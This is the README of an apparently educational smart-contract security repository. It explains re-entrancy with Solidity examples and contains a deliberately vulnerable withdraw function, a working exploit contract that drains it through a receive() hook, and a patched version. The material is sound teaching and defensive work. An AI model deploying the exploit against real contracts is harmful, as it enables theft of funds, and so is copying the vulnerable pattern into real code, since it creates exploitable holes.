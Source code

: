 # 🚧 WORK IN PROGRESS 🚧

# Security research

This repo aims to cover the most common security vulnerabilities in EVM smart contracts,
and provides a set of tools to help developers to find and fix them.
Vulnerabilities are categorized by their type, each type has an example of a vulnerable contract,
a fixed contract (proof) and an exploit to verify the vulnerability.

- [Re-entrancy](#reentrancy-attack)
- [Withdrawal Pattern](#withdrawal-pattern)

## ReEntrancy Attack

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy)

A re-entrancy attack can happen when the **Checks-Effects-Interactions** pattern is not
respected during contracts development.

- **Check**: Validate parameters before modifying the state

- **Effects**: Change the state

- **Interactions**: Call other contracts after storage has been updated accordingly

Every time an interaction is made, the cycle starts again.

### Vulnerable withdraw

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyVulnerable.sol)

```solidity
/**
 * @dev Function to withdraw your deposited funds **vulnerable - do not use**
 */
function withdraw() public {
  /**
   * @dev The interaction is made BEFORE the state update
   *      **wrong**
   */
  (bool success, ) = msg.sender.call{ value: balances[msg.sender] }('');

  /**
   * @dev Update the state
   *      **wrong**
   */
  if (success) balances[msg.sender] = 0;
}
```

### ReEntrancy Exploit

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyExploit.sol)

Contract to exploit the vulnerable contract, it can be used to drain the contract balance.
The receive function, fired on plain Ether transfers, is used to trigger the re-entrancy attack.

```solidity
/**
 * @dev Function to attack target contract
 */
function exploit() external payable {
  require(msg.value >= 1 ether);
  target.deposit{ value: 1 ether }();
  target.withdraw();
}

/**
 * @dev Function executed on plain Ether transfers
 */
receive() external payable {
  if (address(target).balance >= 1 ether) {
    target.withdraw();
  }
}
```

### ReEntrancy Proof

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyProof.sol)

This contract is free from re-entrancy attacks

```solidity
/**
 * @dev Function to withdraw your deposited funds
 */
function withdraw() public {
  /**
   * @dev Update the state
   */
  uint256 amount = balances[msg.sender];
  balances[msg.sender] = 0;

  /**
   * @dev The interaction is made AFTER the state update
   */
  (bool success, ) = msg.sender.call{ value: amount }('');

  /**
   * @dev Check if the interaction was successful
   */
  require(success, 'Transfer failed.');
}
```

## Withdrawal Pattern

## Installation

```bash
forge install
forge test
```

